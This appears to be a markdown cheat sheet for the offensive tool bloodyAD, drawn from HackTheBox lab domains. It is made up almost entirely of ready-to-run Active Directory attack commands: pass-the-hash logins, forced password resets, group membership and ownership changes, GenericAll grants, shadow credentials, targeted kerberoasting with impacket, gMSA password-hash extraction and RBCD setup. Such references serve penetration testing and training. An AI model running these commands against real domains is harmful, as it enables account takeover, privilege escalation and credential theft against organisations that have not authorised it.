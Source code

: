 # BloodyAD – AD Exploitation Automation Tool

##  Authentication Support

#### With user/pass:
```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u james -p "Winter2023!" -action info
```
#### NTLM:
```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u administrator -H aad3b435b51404eeaad3b435b51404ee:7bd61f3a7fa18912e35dbdd95f168918 -action info
```
#### Kerberos Ticket:
Specified with the -k flag
```bash
#Even with kerberos auth we can run into issues if we do not specify user and password, so try to do that aswell:

bloodyAD --host dc01.mirage.htb -d mirage.htb -u mark.bbond -p '1day@atime' -k set password javier.mmarshall 'pwned123!'
```

---

## Enumerating AD Objects

#### Listing object data:
```bash
#base command:
bloodyAD --host dc01.mirage.htb -d mirage.htb -u james -p "Winter2023!" get object john

#specifying specific attributes:
bloodyAD --host dc01.mirage.htb -d mirage.htb -u james -p "Winter2023!" get object --attr <attributes> john
```
#### Listing Writable Objects to user:
Good addition to BloodHound graphs for identifying what objects and what attributes the user can write to.
```bash
#base command:
bloodyAD --host dc01.mirage.htb -d mirage.htb -u james -p "Winter2023!" get writable

#Detailed output (Recommended):
bloodyAD --host dc01.mirage.htb -d mirage.htb -u james -p "Winter2023!" get writable --detail
```
#### Listing Group Memberships + SIDs:
```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u james -p "Winter2023!" get membership john
```
#### List Children for target:
```bash
#for current user:
bloodyAD --host dc01.mirage.htb -d mirage.htb -u james -p "Winter2023!" get children

#for a set target:
bloodyAD --host dc01.mirage.htb -d mirage.htb -u james -p "Winter2023!" get children --target bob
```
---
## Domain Enumeration
#### Listing DNS Records:
```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u james -p "Winter2023!" get dnsDump
```
#### Listing Domain Trusts:
```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u james -p "Winter2023!" get trusts
```
---
## Modifying AD Objects

#### Changing target User's Password:
```bash
#standard way:
bloodyAD --host dc01.mirage.htb -d mirage.htb -u james -p "Winter2023!" set password javier.mmarshall 'pwned123!'

#unicode way:
bloodyAD -d rustykey.htb --host dc.rustykey.htb -u 'IT-Computer3$' -k \
set object dd.ali unicodePwd -v '"NewP@ssw0rd!"'
```
#### Adding target to Group:
```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u james -p "Winter2023!" add groupMember 'IT Support' john
```
#### Adding Computer Object
```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u james -p "Winter2023!" add computer 'mypc$' 'pwned123!'
```
#### Changing Ownership:
`SE_TAKE_OWNERSHIP_PRIVILEGE (Write Owner) makes it so you can only set yourself as the owner (the user that you provided creds for)`
```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u james -p "Winter2023!" set owner 'IT Support' james
```
#### Setting SPN for targeted kerberoast:
```bash
#adding SPN
bloodyAD --host dc01.mirage.htb -d mirage.htb -u james -p "Winter2023!" set object dd.ali servicePrincipalName -v 'test/test'

#SPN-Roasting after it's set:
impacket-GetUserSPNs rustykey.htb/james -k -no-pass -dc-host dc.rustykey.htb -dc-ip 10.129.232.127  -outputfile kerbe.txt
```
#### Enabling a disabled User:
```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u james -p "Winter2023!" set object javier.mmarshall userAccountControl -v 512
```
#### Restoring Removed (Tombstoned) User:
```bash
#default way:
bloodyAD -d tombwatcher.htb -u john -p 'pwned123!' --dc-ip 10.129.180.41 set restore cert_admin --newParent "OU=ADCS,DC=tombwatcher,DC=htb"

#with SID, if multiple users exist with the same SAM:
bloodyAD -d tombwatcher.htb -u john -p 'pwned123!' --dc-ip 10.129.180.41 set restore S-1-5-21-1392491010-1358638721-2126982587-1111 --newParent "OU=ADCS,DC=tombwatcher,DC=htb"
```
#### Add GenericALL (WriteOwner Abuse):
```bash
#john is the target, sam is the trustee:
bloodyAD -u 'sam' -p 'pwned123!' -d tombwatcher.htb --dc-ip 10.129.180.41 add genericAll john sam
```
#### Add Shadow Credentials:
```bash
bloodyAD -u 'sam' -p 'pwned123!' -d tombwatcher.htb --dc-ip 10.129.180.41 add shadowCredentials john
```
#### Setting LogonHours to Always allowed:
```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u james -p "Winter2023!" set object javier.mmarshall logonhours -v '////////////////////////////' --b64
```
#### Getting GMSA-PW:
Outputs the NT hash of the object if the specified user has the right to read it:
```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u james -p "Winter2023!" get object 'Mirage-Service$' --attr msDS-ManagedPassword
```
#### Adding RBCD (Resource-Based Constrained Delegation):
```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u james -p "Winter2023!" add rbcd 'AD-CS$' 'mypc$'
```
---
